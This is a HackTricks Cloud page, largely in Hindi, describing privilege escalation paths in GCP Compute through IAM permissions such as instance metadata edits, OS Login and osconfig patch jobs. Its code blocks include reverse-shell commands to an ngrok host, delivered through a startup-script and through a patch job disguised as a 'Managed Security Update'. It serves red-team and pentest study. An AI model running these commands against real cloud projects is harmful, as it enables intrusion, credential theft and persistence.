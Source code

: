 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP में Compute और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि उन सभी विशेषाधिकार वृद्धि हमलों को करने के लिए जो उदाहरण के मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना) यह **आवश्यक है कि आपके पास उदाहरण से जुड़े SA पर `actAs` अनुमतियाँ हों**, भले ही SA पहले से ही जुड़ा हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

उस अनुमति के साथ आप **संशोधित** कर सकते हैं **मेटाडेटा** जानकारी को एक **उदाहरण** का और **एक उपयोगकर्ता के अधिकृत कुंजियों** को बदल सकते हैं, या **sudo** अनुमतियों के साथ **एक नया उपयोगकर्ता बना सकते हैं**। इसलिए, आप किसी भी VM उदाहरण में SSH के माध्यम से exec करने में सक्षम होंगे और उस GCP सेवा खाते को चुरा सकते हैं जिसके साथ उदाहरण चल रहा है।\
सीमाएँ:

* ध्यान दें कि VM उदाहरणों में चलने वाले GCP सेवा खातों का डिफ़ॉल्ट रूप से **बहुत सीमित दायरा** होता है।
* आपको लॉगिन करने के लिए **SSH** सर्वर से **संपर्क करने में सक्षम होना चाहिए**।

इस अनुमति का लाभ उठाने के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप नए स्टार्टअप-स्क्रिप्ट को जोड़कर और उदाहरण को पुनरारंभ करके भी इस हमले को कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार देती है** लेकिन एक विशिष्ट उदाहरण पर, पूरे प्रोजेक्ट के बजाय। **पिछले अनुभाग के लिए समान शोषण और सीमाएँ लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ एक भूमिका देने** और उनका दुरुपयोग करके विशेषाधिकार बढ़ाने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार नहीं होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### **`compute.instances.osAdminLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

यह संभव है कि **एक सेवा खाते के साथ एक वर्चुअल मशीन बनाई जाए और सेवा खाते का टोकन चुराया जाए** जिससे विशेषाधिकार बढ़ाने के लिए मेटाडेटा तक पहुंचा जा सके।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकती है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं, तो आप एक [**पैच नौकरी या तैनाती**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको वातावरण में पार्श्व रूप से आगे बढ़ने और प्रोजेक्ट के भीतर सभी कंप्यूट उदाहरणों पर कोड निष्पादन प्राप्त करने की अनुमति देगा।

ध्यान दें कि वर्तमान में आपको **उदाहरण से जुड़े SA पर `actAs` अनुमति** की आवश्यकता नहीं है।

यदि आप इसे मैन्युअल रूप से शोषित करना चाहते हैं, तो आपको या तो एक [**पैच नौकरी**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **या** [**तैनाती**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** बनानी होगी।**\
पैच नौकरी चलाने के लिए: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

एक पैच डिप्लॉयमेंट को लागू करने के लिए:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) को इस गलत कॉन्फ़िगरेशन का लाभ उठाने के लिए अतीत में उपयोग किया जा सकता था (लेकिन अब यह काम नहीं कर रहा है)।

**एक हमलावर इसे स्थायीता के लिए भी दुरुपयोग कर सकता है।**

### `compute.machineImages.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ दें** कंप्यूट इमेज पर।

### `compute.snapshots.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ दें** एक डिस्क स्नैपशॉट पर।

### `compute.disks.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ दें** एक डिस्क पर।

### एक्सेस स्कोप को बायपास करें

इस लिंक का पालन करते हुए आप कुछ [**विचार पाएंगे एक्सेस स्कोप को बायपास करने के लिए**](../)।

### GCP Compute इंस्टेंस में स्थानीय विशेषाधिकार वृद्धि

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
